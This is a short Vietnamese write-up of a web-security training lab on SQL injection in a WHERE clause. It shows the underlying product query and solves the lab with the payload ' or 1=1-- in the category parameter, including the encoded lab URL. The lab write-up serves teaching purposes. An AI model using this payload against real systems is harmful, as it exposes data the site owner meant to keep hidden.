 ## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Lab cho biết như sau:

![](/imgs/SQL-Injection/72.png?raw=true)

Nôm na là web sẽ sử dụng câu query như thế để lấy ra các loại sản phẩm.

Vậy chúng ta sẽ thêm vào 1 câu điều kiện luôn đúng là or 1=1 ở sau là solve lab rồi 
=> Câu query nguyên bản sẽ có dạng SELECT * FROM products WHERE category = 'Gifts' or 1=1-- AND released = 1 => Khúc đằng sau là AND release bị comment lại nên ko chạy nữa.

> https://ac311f921ff37433805c14dd007e00d9.web-security-academy.net/filter?category=Gifts%27%20or%201=1--

![](/imgs/SQL-Injection/73.png?raw=true)